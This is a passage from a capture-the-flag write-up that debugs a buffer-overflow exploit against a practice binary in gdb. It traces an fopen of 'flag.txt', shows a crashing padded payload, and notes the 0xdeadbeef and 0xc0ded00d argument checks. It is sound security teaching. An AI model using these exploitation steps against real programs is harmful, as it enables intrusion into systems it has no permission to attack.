 There's quite a lot going on here, so let's focus on the important bits one at a
time. The function calls [`fopen`](https://linux.die.net/man/3/fopen), which
opens a file and returns a handle to it. Let's put a breakpoint at the call site
and see what's being provided to `fopen`.

```shell-session
(gdb) break *0x08049205
Breakpoint 4 at 0x8049205
(gdb) c
Continuing.

Breakpoint 4, 0x08049205 in flag ()
(gdb) x/s $eax
0x804a00a:    "flag.txt"
(gdb)
```

`fopen` accepts two arguments: the path to the file and the mode to open the
file in. Both of these are pointers to byte arrays, and both are provided on the
stack. Because of the Linux x86
[calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions),
the first argument will be at the top of the stack. In fact, in this case the
value still exists in the `eax` register by the time we hit the `call`
instruction. Examining the memory pointed to by the `eax` register indicates
that the file passed to `fopen` is called `flag.txt`.

Shortly after `fopen` is called, the value it returns is checked to see if it is
null, at which point the function branches. Let's put a dummy `flag.txt` file in
our local directory and try our exploit again...

```shell-session
$ echo foobarbaz > flag.txt
$ gdb -q ./vuln
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
(gdb) run < payload.bin 
Starting program: vuln < payload.bin
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb)
```

Oof, it's still not working. Let's return to the assembly for `flag` to find out
what's going wrong. After the `flag.txt` file is opened successfully, there's a
call to `puts`. That explains why our payload is printed to the screen. This is
followed by a call to [`fgets`](https://linux.die.net/man/3/fgets), suggesting
the file contents are being read. Next, the function compares a couple of memory
addresses to two four-byte words (_DWORDs_): `0xdeadbeef` and `0xc0ded00d`. If
these comparisons are true, then the function calls `printf`, printing the flag
loaded from `flag.txt` to the console.
